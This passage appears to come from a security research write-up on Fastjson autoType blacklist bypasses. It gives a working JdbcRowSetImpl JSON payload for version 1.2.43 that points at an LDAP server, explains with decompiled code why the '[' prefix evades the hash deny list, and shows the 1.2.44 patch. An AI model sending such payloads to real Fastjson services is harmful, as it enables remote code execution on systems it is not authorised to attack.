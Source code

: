 > Lcom.sun.rowset.JdbcRowSetImpl; -> replace -> com.sun.rowset.JdbcRowSetImpl

Bypass success.

----

#### 1.2.43

* Payload:

```
{"@type": "[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName": "ldap://127.0.0.1:1389/w17ii2",autoCommit: true]]}
```

- Explain:

  Step 1:

  com\alibaba\fastjson\parser\ParserConfig.class

{% highlight java %}
                          if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                              throw new JSONException("autoType is not support. " + typeName);
                          }    
{% endhighlight %}

  > [com.sun -> passed -> clazz name still is [com.sun.rowset.JdbcRowSetImpl

  Step 2:

  com\alibaba\fastjson\util\TypeUtils.class

{% highlight java %}
              } else if (className.charAt(0) == '[') {
                  Class<?> componentType = loadClass(className.substring(1), classLoader);
                  return Array.newInstance(componentType, 0).getClass();
              }
{% endhighlight %}

  >  [com.sun.rowset.JdbcRowSetImpl;> passed-> com.sun.rowset.JdbcRowSetImpl

Bypass success.

---

#### 1.2.44

* Patch

com\alibaba\fastjson\parser\ParserConfig.class

{% highlight java %}
long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;            
if (h1 == -5808493101479473382L) {
                throw new JSONException("autoType is not support. " + typeName);}
{% endhighlight %}

Check className[0] == `[` will response exception.

---